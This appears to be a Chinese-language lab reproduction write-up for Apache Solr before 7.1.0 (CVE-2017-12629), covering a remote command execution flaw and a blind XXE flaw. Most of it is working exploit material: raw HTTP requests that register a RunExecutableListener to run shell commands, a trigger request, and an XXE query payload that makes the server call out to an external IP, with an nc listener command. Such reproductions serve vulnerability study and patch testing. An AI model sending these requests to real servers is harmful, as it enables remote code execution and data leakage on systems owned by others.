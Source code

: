 # Solr < 7.1.0 RCE && XXE（CVE-2017-12629）

# RCE

## 漏洞描述

Solr < 7.1.0 RCE， 无回显

RunExecutableListener类中使用了Runtime.getRuntime().exec()方法，可用于在某些特定事件中执行任意命令
使用 config API 传入 add-listener 命令即可调用 RunExecutableListener

## writeup

- 待执行命令 

```
touch /tmp/success
```

- 创建core

```
docker exec solr bash bin/solr create_core -c demo
```

- POC1

添加listener

```
POST /solr/demo/config HTTP/1.1
Host: xxxx:8983
Connection: close
Content-Type: application/json  
Content-Length: 208

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener",
    "class":"solr.RunExecutableListener",
    "exe":"sh",
    "dir":"/bin/",
    "args":["-c", "touch /tmp/success"]
  }
}
```

触发

```
POST /solr/demo/update HTTP/1.1
Host: xxxxx:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15

[{"id":"test"}]
```

- POC2

添加listener，直接触发

```
POST /solr/demo/config HTTP/1.1
Host: xxxxxx:8983
Connection: close
Content-Type: application/json  
Content-Length: 211

{
  "add-listener" : {
    "event":"newSearcher",
    "name":"newlistener-2",
    "class":"solr.RunExecutableListener",
    "exe":"sh",
    "dir":"/bin/",
    "args":["-c", "touch /tmp/success"]
  }
}

```

## 复现结果

![](./1.png)

# XXE

## 漏洞描述

Solr < 7.1.0 Blind XXE

在调用lucene xml解析器时确实没有对DTD和外部实体进行禁用处理，造成了Blind XXE

## writeup

- 监听 9999 端口 

```
nc -lvv 9999
```

- POC

```
GET /solr/demo/select?q={!xmlparser+v%3d'<!DOCTYPE+a+SYSTEM+"http%3a//106.53.141.62%3a9999"><a></a>'}&wt=xml&defType=xmlparserE&wt=xml&defType=xmlparser HTTP/1.1
Host: xxxx:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

## 复现结果

![](./2.png)
